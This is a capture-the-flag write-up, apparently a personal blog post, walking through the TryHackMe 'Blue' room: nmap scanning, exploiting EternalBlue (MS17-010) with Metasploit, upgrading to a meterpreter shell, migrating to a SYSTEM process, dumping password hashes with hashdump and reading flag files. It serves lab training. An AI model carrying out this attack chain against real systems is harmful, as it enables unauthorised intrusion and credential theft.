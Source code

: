 ```yaml
---
title: "BLUE"
date: 2021-08-28
categories: [Tryhackme, Easy]
tags: [metasploit, eternal blue, nmap]     # TAG names should always be lowercase
---
```


> This was my first write-up which I posted on [Medium](https://medium.com/@YrnCollo/tryhackme-blue-4aff45201ca9) on **Aug 28, 2021**.
{: .prompt-danger }

Hello Everyone!
I’m Collins, a security researcher. This is an article on how to exploit blue a machine on [TryHackMe](https://tryhackme.com/dashboard) made by [DarkStar7471](https://tryhackme.com/p/DarkStar7471).
![image](/assets/img/Posts/Blue/001.png)_Title page_
## DEPLOYING THE MACHINE
To connect to TryHackMe you will need to download the `OpenVpn` and connect to their VPN. Once connected to their VPN start the machine and we are ready to exploit it. Once you have deployed the machine you would be given an IP address and one hour time (but you can add one hour) as shown in the figure bellow.
![starting machine](/assets/img/Posts/Blue/002.png)_fig 1.0_
## TASK 1: RECON

We shall start our recon by scanning the machine. The command we shall use is `nmap -sV -A <TARGET_IP>`

![nmap](/assets/img/Posts/Blue/003.png)_fig 2.0_

We can manually count the number of ports under 1000 on our nmap scan which is 3.

To know what is this machine vulnerable to we shall run `nmap <TARGET_IP>-script vuln` and the result should like as figure 3.0

![fig 3](/assets/img/Posts/Blue/004.jpeg)_fig 3.0_

As we can clearly see the target is vulnerable to ms17–010

## TASK 2: GAINING ACCESS

Now the fun part is here where we shall gain full access to our target.

The first thing to do is to launch `Metasploit`. This is done by writing `msfconsole` to the terminal as in figure 4.0

![fig 4](/assets/img/Posts/Blue/005.png)_fig 4.0_

Now we shall use the search feature to search for `ms17_010_` which we had earlier found that the target is vulnerable to. The full path of the exploit as found on the search is `exploit/windows/smb/ms17_010_eternalblue` as shown in the figure 5.0

![fig 5](/assets/img/Posts/Blue/006.png)_fig 5.0_

Use the show options and see what is required.Set `RHOST` to your target IP.(shown in figure 6.0)
![fig 6](/assets/img/Posts/Blue/007.png)_fig 6.0_

With that done, run the exploit…

![fig 6.1](/assets/img/Posts/Blue/008.png)_fig 6.1_

We have to background the shell by `CTRL + Z` or by typing `background`.

![fig 6.2](/assets/img/Posts/Blue/009.png)_fig 6.2_

## TASK 3: ESCALATE

Alright, it’s now time to upgrade our shell to meterpreter. We shall find our upgrade module by searching for `shell_to_meterpreter` as shown in figure 7.1

![fig 7.0](/assets/img/Posts/Blue/010.png)_fig 7.0_

Select the `post/multi/manage/shell_to_meterpreter` by the use of `use` command as in figure 7.1

![fig 7.1](/assets/img/Posts/Blue/011.png)_fig 7.1_

Set `LHOST <Your_IP>`

![fig 7.2](/assets/img/Posts/Blue/012.png)_fig 7.2_

We use `sessions -i` command to see the current session

![fig 7.3](/assets/img/Posts/Blue/013.png)_fig 7.3_

We shall use the `run` command to get the meterpreter shell.

![fig](/assets/img/Posts/Blue/014.png)

Once again use the sessions -i command to see the current session and you’ll notice we have meterpreter shell as in figure 7.4

![fig 7.4](/assets/img/Posts/Blue/015.png)_fig 7.4_

Now we shall use `set SESSION 2` and start interaction with it.

![fig](/assets/img/Posts/Blue/016.png)_fig 7.5_

Since we have already connected through a meterpreter session to the target machine we can escalate privileges by the using the command getsystem. Use the `shell` command and run `whoami` then background the session.

![fig](/assets/img/Posts/Blue/017.png)

List all the process by the command `ps` and migrate to a process that is running at NT AUTHORITY\SYSTEM
To migrate we can use `migrate -N (name_of_the_process)` OR `migrate -P (process_ID)`

![fig](/assets/img/Posts/Blue/018.png)

## TASK 4: CRACKING

With our elevated meterpreter shell, run the command `hashdump` which will dump all of the passwords on the machine as long as we have the correct privileges.

![hashdamp](/assets/img/Posts/Blue/019.jpeg)

## TASK 5: FINDING FLAGS

**FLAG 1**

Flag one is located on the root of the machine in which is `C:/`

cat flag1.txt

![flag 1](/assets/img/Posts/Blue/020.png)_flag 1_

**FLAG 2**

We shall search for sam location on windows which is `C:\Windows\System32\config`

cat flag2.txt

![flag 2](/assets/img/Posts/Blue/021.png)_flag 2_

**FLAG 3**

We shall use the search function to search for flag3
```
search -f flag*.txt
cat c:\\Users\\Jon\\Documents\\flag3.txt
```
\#THANKS
